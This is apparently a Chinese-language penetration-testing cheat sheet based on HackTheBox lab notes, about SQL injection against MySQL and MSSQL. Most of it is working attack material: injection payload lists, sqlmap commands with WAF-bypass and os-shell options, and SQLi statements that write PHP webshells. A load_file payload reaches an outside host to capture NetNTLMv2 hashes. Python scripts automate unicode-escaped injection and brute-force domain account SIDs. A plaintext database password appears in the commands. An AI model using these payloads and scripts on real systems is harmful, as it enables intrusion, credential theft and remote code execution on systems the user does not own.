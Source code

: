 MySQL 数据库服务的默认端口

mysql 链接
```mysql
sudo mysql -h <IP> -u<> -p
show databases;
use <database name>
show tables;
select * from <table name>

mysql -e 'show databases;' -u drupaluser -p'CQHEy@9M*m23gBVj'
mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

Login MySQL
```bash
mysql -h [ip] -u[username] -p -D[database]
```

Update (Replace) creds
- template
```mysql
UPDATE tblUsers SET pwd = 'e10adc3949ba59abbe56e057f20f883e' where login = 'admin' ;
```

**SQLMAP**
```
sqlmap -r request.txt --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080

-r 指定bp抓包信息文档
--tamper=charunicodeescape 指定 tamper 脚本,使用默认的charunicodeescape绕过WAF  对所有字符进行 unicode 编码
--delay 5  每五秒一次请求 
--level 5 --risk 3  最大程度放宽
--proxy 当开启bp的时候 流量可以流过bp的拦截
--batch 使用sqlmap默认的选项
--force-ssl  扫描https网页强制开启ssl
--technique U   指定使用Union query
--privileges  列出当前用户的权限

--dbs
--dump-all 列出所有数据
--exclude-sysdbs 除了系统的数据库
--os-cmd 执行系统命令
--os-shell
```

##### SQL 注入
一定要检查细致 :    '    "    ')    ")     , 单引号前面的数据也有可能影响最后结果建议多写一点
```mysql
1' or '1'='1
'OR 1=1--
qwe' and 1=1 -- -
qwe' and 1=1; -- -
qwe' -- -
qwe' or 1=1; -- -
qwe' or 1=1 -- -
qwe' oR 1=1 -- -
qwe' || 1=1 -- -
qwe' && 1=1 -- -
qwe' union select 1,2,3,4,5,6; -- -
qwe' union select 1,2,3,4,5,6 -- -
0 or 1=1
0 or 1=2
123 union select 1,2,3,4,5;-- -
\u27     (尝试Escape Unicode Char >Cyber​​Chef<)
\u0027
\u0027\u0020\u006F\u0072\u0020\u0031\u003D\u0031\u003B\u002D\u002D\u0020\u002D  (' or 1=1;-- -)
qwe' union select 1,2,3,4,5 -- -
<username>' OR 1=1--
'OR '' = '	
<username>'--
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
```

Bypass : 
```
qwe' || 1 #  (qwe' or 1 #)
```

### [重要]
-  **查看用户权限**           ' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges #        
-  **获取内部 hash 值**   ' union select 1,user,password,4,5,6 from mysql.user #    
	使用 `hashcat -m 300`  来破解
-  **配合 responder 拿到 NetNTLMv2 Hash** :    `' union select 1,load_file('\\\\10.10.14.11\\test'),3 #`     
-  **读取主机中的文件** :    `' union select 1,load_file('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3 #`       

**脚本 （escape unicode char ）**  
```python
# 2024/03/06 基于 escape unicode 的sql注入 需要输入完整的SQL注入语句
# Like -> qwe' union all select 1,2,3,4,'Test'-- -
# Obsidian Hackthebox 0x30 is the example
import requests
import json
import cmd
  
url = "http://10.129.103.54/api/getColleagues" # ChangeThis

def encode(query):
    payload = ""
    for char in query:
        payload += r"\u{:04x}".format(ord(char))
    return payload

class exploit(cmd.Cmd):
    prompt = "PleaseSub > "
    def default(self, line):
        payload = encode(line)
        data = '{"name":"'+ payload +'"}'
        header = {"Content-Type":"application/json;charset=utf-8"}
        proxy = {"http":"127.0.0.1:8080"} # bp代理需要设置 
        r = requests.post(url, headers=header, proxies=proxy, data=data) # bp代理需要设置 
        print(r.text)
  
exploit().cmdloop()
```



**wfuzz 验证特殊符号过滤情况**
```bash
└─$ wfuzz -u http://10.129.103.54/api/getColleagues -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -t 1 -s 3

并发线程数为1
超时时间为3
```

**phpmyadmin 有漏洞的版本： version 4.9.0 - 4.9.1**  : [CMS (Web) 漏洞，攻击向量](../CMS%20(Web)%20漏洞，攻击向量.md)

**SQLi 写入 WebShell** :
```sql
select '<?php system($_GET[0]) ?>' into OUTFILE '/var/www/html/shell.php' ;
' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'C:/inetpub/wwwroot/xekoner.php' #
(注意要用 / 而不是 \)
```

# 域渗透

##### 手动 sql 注入转储域用户
https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
编码绕过方式根据实际情况确定      
**例**  > [0x30 Multimaster (SQL 注入枚举域内信息)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x30%20Multimaster%20(SQL 注入枚举域内信息).md) <
```
SELECT DEFAULT_DOMAIN() 获取域名
test' UNION ALL SELECT 51,DEFAULT_DOMAIN(),51,51,51-- SaIs
```

```
获取Domain Admins域的RID, 因为字符串回显原因，使用HEX返回
test' UNION ALL SELECT 58,58,58,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator')),58-- SaIs
```
HEX : `0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`
所以可以拆分为 `0x0105000000000005150000001c00d1bcd181f1492bdfc236 f4 01 00 00`
反转字节后使用 python 转换格式：
```python
>>> 0x01f4
500
```
500 就是 Administrator 的 SID

**暴力枚举可能存在的用户 SID**
```python
#!/usr/bin/env python3       

import binascii
import requests
import struct
import sys
import time

payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""                                                         

def unicode_escape(s):                              
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])


def issue_query(sql):                               
    while True:                                     
        resp = requests.post(
            "http://10.129.103.54/api/getColleagues", 
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )                                           
        if resp.status_code != 403:
            break                                   
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)                              
    return resp.json()[0]["email"]


print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")
for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)
```
